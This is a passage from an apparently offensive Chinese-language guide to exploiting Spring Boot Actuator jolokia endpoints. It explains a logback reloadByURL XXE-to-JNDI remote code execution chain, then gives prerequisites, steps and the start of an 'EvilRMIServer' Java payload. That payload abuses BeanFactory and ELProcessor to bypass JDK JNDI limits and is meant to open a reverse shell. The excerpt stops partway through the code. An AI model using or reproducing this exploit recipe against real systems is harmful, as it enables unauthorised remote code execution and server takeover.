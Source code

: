 ![](media/a288f1cbdbcfd6a43eb37a0aa8362ef4.png)



**注: 如果目标成功请求了example.xml并且 marshalsec 也接收到了目标请求，但是目标没有请求JNDIObject.class，大概率是因为目标环境的 jdk 版本太高，导致 JNDI 利用失败。**



##### **利用原理**

- 直接访问可触发漏洞的 URL，相当于通过 jolokia 调用
  ch.qos.logback.classic.jmx.JMXConfigurator 类的 reloadByURL 方法
- 目标机器请求外部日志配置文件 URL 地址，获得恶意 xml 文件内容

- 目标机器使用 saxParser.parse 解析 xml 文件 (这里导致了 xxe 漏洞)

- xml 文件中利用 logback 依赖的 insertFormJNDI 标签，设置了外部 JNDI 服务器地址

- 目标机器请求恶意 JNDI 服务器，导致 JNDI 注入，造成 RCE 漏洞

详细分析参见下文:

[spring boot actuator rce via jolokia](https://xz.aliyun.com/t/4258)



#### 2.5.createJNDIRealm RCE

##### 利用条件

- 目标网站存在 `/jolokia` 或 `/actuator/jolokia` 接口
- 目标使用了 `jolokia-core` 依赖（版本要求暂未知）并且环境中存在相关 MBean
- 目标可以请求攻击者的服务器（请求可出外网）
- 普通 JNDI 注入受目标 JDK 版本影响，jdk < 6u141/7u131/8u121(RMI)，但相关环境可绕过



##### 利用方法

**步骤一：查看已存在的 MBeans**

访问 `/jolokia/list` 接口，查看是否存在 `type=MBeanFactory` 和 `createJNDIRealm` 关键词。



**步骤二：准备要执行的 Java 代码**

编写优化过后的用来反弹 shell 的 Java代码

```
import java.rmi.registry.*;
import com.sun.jndi.rmi.registry.*;
import javax.naming.*;
import org.apache.naming.ResourceRef;
 
public class EvilRMIServer {
    public static void main(String[] args) throws Exception {
        System.out.println("Creating evil RMI registry on port xxxxx");//RMI服务监听地址
        Registry registry = LocateRegistry.createRegistry(1097);
 
        //prepare payload that exploits unsafe reflection in org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        //redefine a setter name for the 'x' property from 'setX' to 'eval', see BeanFactory.getObjectInstance code
        ref.add(new StringRefAddr("forceString", "x=eval"));
```
